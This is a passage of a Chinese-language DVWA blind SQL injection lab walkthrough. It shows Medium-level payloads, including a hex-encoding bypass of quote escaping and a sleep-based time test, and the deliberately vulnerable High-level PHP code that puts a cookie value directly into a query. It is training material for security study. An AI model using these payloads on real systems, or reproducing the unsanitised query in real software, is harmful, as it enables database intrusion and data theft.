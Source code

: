 ==>当前连接数据库的名称的第1个字符的ASCII码为100，对应字母d
......

后续过程与Low级别时类似，在此略过。Medium级别需要在拦截工具中操作编辑数据进行提交，还有因对特殊符号进行了转义处理，所以对于带有引号包含字符串的字段值，可以转换成16进制的形式进行绕过限制，从而提交到数据库进行查询

如：猜解表中的字段名时，猜解字段名的长度（对字段值`users`进行16进制转换为`0x7573657273`）

| Low级别                                                      | Medium级别                                                   |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| 1' and (select count(column_name) from information_schema.columns where table_schema=database() and table_name='users')=8 # | 1 and (select count(column_name) from information_schema.columns where table_schema=database() and table_name=0x7573657273)=8 # --------------------------------------------------------- 1 and if((select count(column_name) from information_schema.columns where table_schema=database() and table_name=0x7573657273)=8,sleep(2),1) # |



> ##### 【C】Level: High

服务端代码：

```php
<?php

if( isset( $_COOKIE[ 'id' ] ) ) {
    // Get input
    $id = $_COOKIE[ 'id' ];

    // Check database
    $getid  = "SELECT first_name, last_name FROM users WHERE user_id = '$id' LIMIT 1;";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $getid ); // Removed 'or die' to suppress mysql errors

    // Get results
    $num = @mysqli_num_rows( $result ); // The '@' character suppresses errors
    if( $num > 0 ) {
        // Feedback for end user
        $html .= '<pre>User ID exists in the database.</pre>';
    }
    else {
        // Might sleep a random amount
        if( rand( 0, 5 ) == 3 ) {
            sleep( rand( 2, 4 ) );
        }

        // User wasn't found, so the page wasn't!
        header( $_SERVER[ 'SERVER_PROTOCOL' ] . ' 404 Not Found' );

        // Feedback for end user
        $html .= '<pre>User ID is MISSING from the database.</pre>';
    }

    ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
}

?>
```
